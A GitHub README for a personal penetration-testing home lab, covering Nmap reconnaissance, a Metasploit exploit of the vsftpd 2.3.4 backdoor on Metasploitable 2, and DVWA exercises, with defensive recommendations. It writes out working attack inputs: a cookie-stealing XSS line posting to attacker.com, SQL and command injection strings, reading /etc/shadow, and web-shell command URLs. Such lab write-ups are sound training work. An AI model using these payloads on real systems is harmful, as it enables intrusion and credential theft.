# Cybersecurity-Home-Lab
Personal cybersecurity lab for vulnerability assessment and penetration testing practice
**Author:** Daniel Orogun  
**Contact:** orogund10@gmail.com | [LinkedIn](https://linkedin.com/in/daniel-orogun-800798177)  
**Started:** December 2025


## Table of Contents

1. [Lab Environment](#lab-environment)
2. [Project 1: Network Reconnaissance & Vulnerability Discovery](#project-1-network-reconnaissance--vulnerability-discovery)
3. [Project 2: Exploitation - vsftpd 2.3.4 Backdoor](#project-2-exploitation---vsftpd-234-backdoor-cve-2011-2523)
4. [Project 3: Web Application Security Testing - DVWA](#project-3-web-application-security-testing---dvwa)

---

## Quick Summary

**Hands-on cybersecurity lab demonstrating:**
- ✅ Network reconnaissance (Nmap) - 23 vulnerable services identified
- ✅ System exploitation (Metasploit) - Root access gained via CVE-2011-2523
- ✅ Web application testing (DVWA) - SQL injection, XSS, Command injection, File upload
- ✅ Post-exploitation analysis - Password hash extraction, system enumeration
- ✅ Defensive recommendations - Practical security hardening guidance

**Skills**: Vulnerability Assessment, Penetration Testing, OWASP Top 10, Metasploit Framework, Network Security, Technical Documentation

[View Full Documentation Below ↓](#lab-environment)

## Lab Environment

### Infrastructure
- **Hypervisor:** Oracle VirtualBox 7.x
- **Network Configuration:** Bridged Adapter (isolated network segment)
- **Host System:** Windows

- ### Virtual Machines
1. **Metasploitable 2** (Vulnerable Target)
   - OS: Ubuntu Linux
   - IP: 192.168.1.217
   - Purpose: Intentionally vulnerable system for practising exploitation techniques

2. **Kali Linux 2025.2** (Attack Platform)
   - OS: Kali Linux
   - IP: 192.168.1.166
   - Purpose: Penetration testing distribution with pre-installed security tools


## Project 1: Network Reconnaissance & Vulnerability Discovery

### Objective
Identify open ports and vulnerable services on the target system using industry-standard reconnaissance tools.

### Tools Used
- **Nmap** - Network mapper and port scanner
- **ifconfig/ip** - Network configuration utilities

### Methodology

#### 1. Network Configuration
- Configured both VMs on a bridged network for inter-VM communication
- Verified connectivity using ICMP ping tests
- Confirmed 0% packet loss between attacker and target systems
  
#### 2. Port Scanning
Executed a comprehensive TCP port scan with service version detection:
```bash
nmap -sV 192.168.1.217
```
**Scan Parameters:**
- `-sV`: Service version detection
- Target: 192.168.1.217 (Metasploitable 2)

- ### Key Findings

#### Critical Vulnerabilities Discovered

**23 open ports identified** with multiple high-risk services:

| Port | Service | Version | Risk Level |
|------|---------|---------|------------|
| 21 | FTP | vsftpd 2.3.4 | **CRITICAL** |
| 22 | SSH | OpenSSH 4.7p1 | HIGH |
| 139/445 | SMB | Samba 3.X | HIGH |
| 1524 | Bindshell | Metasploitable root shell | **CRITICAL** |
| 3306 | MySQL | 5.0.51a | MEDIUM |
| 5432 | PostgreSQL | 8.3.0 - 8.3.7 | MEDIUM |
| 8180 | HTTP | Apache Tomcat | MEDIUM |


#### Vulnerability Analysis

**vsftpd 2.3.4 (Port 21):**
- Known backdoor vulnerability (CVE-2011-2523)
- Allows unauthenticated remote code execution
- Exploitable via Metasploit Framework

**Bindshell (Port 1524):**
- Direct root shell access without authentication
- Represents catastrophic security failure
- Indicates complete system compromise

**Samba 3. X (Ports 139/445):**
- Multiple known vulnerabilities in the file-sharing protocol
- Potential for remote code execution
- Common target in enterprise environments

**Legacy Database Services:**
- MySQL 5.0.51a and PostgreSQL 8.3 both contain known CVEs
- Default configurations often have weak authentication
- Database compromise can lead to data exfiltration

### Security Implications

This scan demonstrates multiple critical security failures:

1. **Outdated Software:** All identified services are running legacy versions with publicly known vulnerabilities
2. **Excessive Attack Surface:** 23 open ports provide numerous entry points for attackers
3. **No Network Segmentation:** All services are exposed on a single network interface
4. **Lack of Patch Management:** Years-old vulnerabilities remain unpatched

### Defensive Recommendations

- To implement an aggressive patch management policy
- Close unnecessary ports and disable unused services
- Deploy network segmentation to isolate critical systems
- Implement intrusion detection/prevention systems (IDS/IPS)
- Regular vulnerability scanning and penetration testing
- Deploy host-based firewalls with default-deny policies

---

## Project 2: Exploitation - vsftpd 2.3.4 Backdoor (CVE-2011-2523)

### Objective
Exploit known backdoor vulnerability in vsftpd 2.3.4 FTP service to gain unauthorised root-level access to the target system, demonstrating a complete attack lifecycle from reconnaissance through post-exploitation.

### Vulnerability Background

**CVE-2011-2523: vsftpd 2.3.4 Backdoor**
- **Severity:** Critical (CVSS 10.0)
- **Type:** Backdoor / Malicious Code Injection
- **Affected Service:** vsftpd 2.3.4 FTP server
- **Discovery Date:** July 2011
- **Attack Vector:** Network-based, no authentication required
- **Impact:** Complete system compromise with root privileges

**Technical Details:**
In July 2011, the vsftpd 2.3.4 source code distributed via the master site was compromised. An attacker inserted a backdoor that could be triggered by sending a specific sequence of bytes on the FTP control connection. When triggered, the backdoor spawns a root shell on TCP port 6200.

This represents a **supply chain attack** where trusted software distribution was compromised, highlighting the critical importance of verifying software integrity and monitoring trusted sources.

### Exploitation Methodology

#### Tools Used
- **Metasploit Framework v6.4** - Penetration testing and exploitation framework
- **Module:** `exploit/unix/ftp/vsftpd_234_backdoor`
- **Target:** Metasploitable 2 (192.168.1.217:21)

#### Attack Execution

**1. Launched Metasploit Framework:**
```bash
msfconsole
```



**2. Located appropriate exploit module:**
```bash
search vsftpd
```

Identified: `exploit/unix/ftp/vsftpd_234_backdoor` with **"excellent"** reliability ranking



**3. Configured exploit parameters:**
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.1.217
show options
```

**Configuration:**
- RHOST (Remote Host): 192.168.1.217 (Metasploitable target)
- RPORT (Remote Port): 21 (FTP service)
- Target: Automatic

**4. Executed exploitation:**
```bash
exploit
```

**Results:**
```
[*] 192.168.1.217:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.1.217:21 - USER: 331 Please specify the password.
[+] 192.168.1.217:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.166:39973 → 192.168.1.217:6200)
```

✅ **Exploitation successful** - Command shell session established with root privileges



### Post-Exploitation Activities

#### Privilege Verification

**Confirmed root access:**
```bash
whoami
# Output: root

id  
# Output: uid=0(root) gid=0(root)

pwd
# Output: /
```



#### System Reconnaissance

**Explored filesystem:**
```bash
ls -la
# Successfully listed root directory contents with full permissions visibility
```



**Accessed sensitive system files:**
```bash
cat /etc/shadow
# Successfully read password hash file (accessible only to root)
```

The `/etc/shadow` file contains password hashes for all system users. Access to this file enables:
- Offline password cracking attacks
- User enumeration
- Privilege escalation research
- Credential harvesting for lateral movement



### Real-World Impact Analysis

This successful exploitation demonstrates several critical security implications:

#### Immediate Impact
- **Complete System Compromise:** Attacker gains uid=0 (root) access
- **No Authentication Required:** Exploit triggered without valid credentials
- **Persistent Access:** Backdoor remains available until service restart/patching
- **Full Data Access:** All files, databases, and configurations are readable/modifiable
- **Credential Theft:** Password hashes obtained for offline cracking

#### Potential Attack Progression
1. **Data Exfiltration:** Download sensitive files, databases, and configuration files
2. **Credential Harvesting:** Extract /etc/shadow, SSH keys, application credentials
3. **Lateral Movement:** Use compromised credentials to access other systems
4. **Malware Installation:** Install persistent backdoors, rootkits, or ransomware
5. **Network Pivoting:** Use compromised system as a launching point for internal network attacks
6. **Log Manipulation:** Delete evidence of intrusion to avoid detection

#### Supply Chain Implications
This vulnerability represents a **supply chain attack** where:
- Trusted software distribution channel was compromised
- Users downloading from the "official" source received backdoored software
- Traditional security controls (firewall, IDS) couldn't detect malicious functionality
- Highlights the importance of software verification (checksums, signatures, SBOM)

### Defensive Recommendations

#### Immediate Actions
1. **Emergency Patching:**
   - Update vsftpd to version 2.3.5 or later immediately
   - Consider disabling FTP entirely (prefer SFTP/FTPS)
   - Verify software checksums before installation

2. **Incident Response:**
   - Assume full compromise if vsftpd 2.3.4 was deployed
   - Rotate all credentials (passwords, SSH keys, API tokens)
   - Review logs for exploitation indicators (connections to port 6200)
   - Conduct forensic analysis of potentially compromised systems

#### Strategic Security Improvements
1. **Patch Management:**
   - Implement automated vulnerability scanning
   - Deploy patches within 24-48 hours of critical vulnerability disclosure
   - Maintain inventory of all software versions across infrastructure

2. **Network Segmentation:**
   - Isolate FTP servers in DMZ
   - Implement strict firewall rules (deny port 6200 outbound)
   - Use micro-segmentation to limit blast radius

3. **Detection & Monitoring:**
   - Deploy IDS/IPS rules for backdoor exploitation attempts
   - Monitor for unusual outbound connections (port 6200)
   - Alert on /etc/shadow file access
   - Implement SIEM correlation rules for attack patterns

4. **Supply Chain Security:**
   - Verify software checksums/signatures before installation
   - Download only from official, verified sources
   - Implement Software Bill of Materials (SBOM) tracking
   - Subscribe to vendor security advisories

5. **Defence in Depth:**
   - Principle of least privilege (don't run services as root)
   - Use SELinux/AppArmor mandatory access controls
   - Implement host-based intrusion detection (AIDE, Tripwire)
   - Regular security audits and penetration testing
  
## Project 3: Web Application Security Testing - DVWA

### Objective
Identify and exploit common web application vulnerabilities listed in the OWASP Top 10, demonstrating understanding of web security threats and their real-world impact.

### Target Environment
- **Application:** Damn Vulnerable Web Application (DVWA)
- **Host:** Metasploitable 2 (192.168.1.217)
- **Security Level:** Low (minimal protections for learning purposes)
- **Access:** http://192.168.1.217/dvwa
### Vulnerabilities Exploited

#### 1. SQL Injection (OWASP A03:2021)

**Description:**
SQL injection occurs when user input is improperly sanitized before being included in SQL queries, allowing attackers to manipulate database operations.

**Exploitation:**

Normal query:
```
User ID: 1
Result: Single user record returned
```

Malicious injection:
```
User ID: 1' OR '1'='1
Result: ALL user records returned
```

**Technical Details:**

Original query:
```sql
SELECT * FROM users WHERE user_id = '1'
```

Injected query:
```sql
SELECT * FROM users WHERE user_id = '1' OR '1'='1'
```

The `'1'='1'` condition is always TRUE, causing the database to return all records.

**Impact:**
- Authentication bypass
- Complete database extraction
- Data modification/deletion
- Privilege escalation

**Real-World Example:** In 2023, MOVEit Transfer SQL injection (CVE-2023-34362) led to massive data breaches affecting 2,000+ organisations.



---

#### 2. Cross-Site Scripting - XSS (OWASP A03:2021)

**Description:**
XSS vulnerabilities enable attackers to inject malicious JavaScript into web pages that other users view.

**Exploitation:**

Normal input:
```html
Name: Daniel
Output: Hello Daniel
```

Malicious injection:
```html
Name: alert('XSS Attack!')
Output: JavaScript alert popup executed
```

**Attack Vectors:**

Cookie theft:
```JavaScript

document.location='http://attacker.com/steal?cookie='+document.cookie

```

**Impact:**
- Session hijacking (cookie theft)
- Phishing attacks
- Keylogging
- Website defacement
- Malware distribution

**Real-World Example:** British Airways 2018 breach - XSS attack stole 380,000 customer payment details, resulting in £20M fine.



---

#### 3. Command Injection (OWASP A03:2021)

**Description:**
Command injection occurs when applications pass unsanitized user input to system shell commands.

**Exploitation:**

Normal usage:
```
IP Address: 127.0.0.1
Result: Ping results displayed
```

Command injection:
```
IP Address: 127.0.0.1; whoami
Result: Ping results + command output ("www-data")
```

**Commands Executed:**
```bash
127.0.0.1; whoami          # Identify user context
127.0.0.1; cat /etc/passwd # Read system user file
127.0.0.1; ls -la          # List directory contents
127.0.0.1; uname -a        # System information
```

**Impact:**
- Complete server compromise
- Data exfiltration
- Malware installation
- Lateral movement
- Privilege escalation

**Real-World Example:** Fortinet VPN (CVE-2022-42475) - Command injection allowed remote code execution, exploited in ransomware campaigns.



---

#### 4. File Upload Vulnerability (OWASP A04:2021)

**Description:**
Insecure file upload allows attackers to upload malicious files (web shells, malware) to the server.

**Exploitation:**

Created PHP web shell:
```php

```

Uploaded as: `backdoor.php`

Accessed via:
```
http://192.168.1.217/dvwa/hackable/uploads/backdoor.php?cmd=whoami
```

**Commands Executed Through Web Shell:**
```
?cmd=whoami           # User context: www-data
?cmd=cat /etc/passwd  # System users
?cmd=id               # User permissions
?cmd=ls -la           # Directory listing
```

**Impact:**
- Remote code execution
- Web shell persistence
- Server takeover
- Data theft
- Ransomware deployment

**Real-World Example:** MOVEit Transfer vulnerability enabled ransomware groups to upload web shells, compromising thousands of organisations.



---

### Defensive Recommendations

#### General Web Application Security:
1. **Input Validation:**
   - Whitelist allowed characters
   - Reject special characters in user input
   - Validate data type, length, and format

2. **Output Encoding:**
   - HTML-encode all user input before display
   - Use Content Security Policy (CSP) headers
   - Sanitise data in JavaScript contexts

3. **Parameterized Queries:**
   - Use prepared statements (prevents SQL injection)
   - Never concatenate user input into SQL queries
   - Implement ORM frameworks with built-in protections

4. **Command Execution:**
   - Avoid system calls with user input entirely
   - If necessary, use allow lists for valid inputs
   - Run applications with least privilege

5. **File Upload Security:**
   - Validate file type (magic bytes, not just extension)
   - Rename uploaded files (remove user-controlled names)
   - Store uploads outside web root
   - Scan uploads with antivirus
   - Implement file size limits

6. **Security Headers:**
   - Content-Security-Policy
   - X-XSS-Protection
   - X-Content-Type-Options
   - X-Frame-Options

7. **Web Application Firewall (WAF):**
   - Deploy ModSecurity or cloud WAF
   - Block common attack patterns
   - Rate limiting and bot protection

---

### Skills Demonstrated

**OWASP Top 10 Knowledge:**
- Understanding of critical web vulnerabilities
- Ability to identify injection flaws
- Knowledge of attack vectors and exploitation techniques

**Web Security Testing:**
- Manual testing methodology
- Payload crafting for various attack types
- Understanding of both client-side and server-side vulnerabilities

**Impact Assessment:**
- Evaluating severity and business impact
- Recommending prioritised remediation steps
- Understanding real-world attack scenarios

**Tools & Technologies:**
- DVWA (intentionally vulnerable application)
- Browser developer tools
- Command line for payload creation
- Web shell development

---

### Learning Outcomes

1. **SQL Injection:** Reinforced importance of parameterised queries and input validation
2. **XSS:** Understood how unsanitized output enables client-side attacks
3. **Command Injection:** Learned why system calls with user input are extremely dangerous
4. **File Upload:** Recognised multi-layered validation requirements for secure file handling

**Key Takeaway:** Web applications are complex attack surfaces requiring defense-in-depth approaches. A single vulnerability can lead to complete system compromise.


## Disclaimer

Please, guys, this is a lab environment,  and I am using it for **educational and authorised security research purposes only**. All activities are conducted in an isolated virtual environment with no connection to production systems. Unauthorised access to computer systems is illegal.
